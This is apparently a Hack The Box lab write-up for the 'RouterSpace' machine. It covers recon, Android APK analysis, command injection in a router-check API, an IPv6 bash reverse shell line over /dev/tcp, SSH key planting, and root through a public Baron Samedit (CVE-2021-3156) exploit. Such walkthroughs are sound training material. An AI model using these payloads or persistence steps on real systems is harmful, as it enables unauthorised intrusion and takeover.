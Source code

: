 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)

---

## Recon

### Nmap Scan
```
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.11.148
nmap -p 22,80 -sCV 10.10.11.148
```
- Ports Open: 22 (SSH), 80 (HTTP)
- Unknown SSH version with fingerprint
- HTTP returns headers like `X-Powered-By: RouterSpace`, no default CMS or tech found.

### Website - Port 80
- Landing page offers a **RouterSpace.apk** for download
- X-Headers are custom, possibly unique to this server

### Directory Brute Force
```
feroxbuster -u http://10.10.11.148 -X 'Suspicious activity detected !!!'
```
- `/cgi-bin`, `/admin`, `/images`, `/scripts`, `/includes` all found
- Nothing actionable from static analysis alone

---

## Android App Analysis

### APK Static Analysis
- Extract using apktool:
```
apktool d RouterSpace.apk
```
- Found domain `routerspace.htb` in cert
- App uses React Native
- Key JavaScript file: `assets/index.android.bundle`

### APK Dynamic Analysis
- Used **Genymotion** with API 27 to bypass HTTPS issues
- Set up proxy to forward traffic through Burp
- Observed endpoint:
```
POST /api/v4/monitoring/router/dev/check/deviceAccess
```
- Payload: `{ "ip": "<input>" }`

### SSTI / Command Injection
- Endpoint is vulnerable to **Command Injection**
- Successful payload: `{"ip": "$(id)"}`
- RCE confirmed, reverse shell blocked by firewall
- **IPv6 bypass** worked:
```
$(bash -c 'bash -i >& /dev/tcp/dead:beef:2::1004/443 0>&1')
```

### Establish SSH Access
- Used RCE to inject SSH key into `/home/paul/.ssh/authorized_keys`
- Connected as `paul` via SSH

---

## Privilege Escalation

### Enumeration with LinPEAS
- CVE findings:
  - **CVE-2021-3156 (Baron Samedit)**: vulnerable
  - **CVE-2021-4034 (PwnKit)**: false positive (not SUID)
  - **CVE-2021-3560 (Polkit)**: missing components
  - **CVE-2021-22555 (NetFilter)**: exploit failed

### Exploit CVE-2021-3156 (Baron Samedit)
- Cloned PoC: https://github.com/CptGibbon/CVE-2021-3156
- Built locally and transferred to target
```
make
./exploit
```
- Got root shell!


## Notes
- Key concepts: APK reverse engineering, React Native apps, Genymotion + Burp proxy, command injection, classic sudo vulnerability (Baron Samedit)
- IPv6 reverse shell bypass was a smart trick
- Emulation + dynamic analysis was the hardest setup
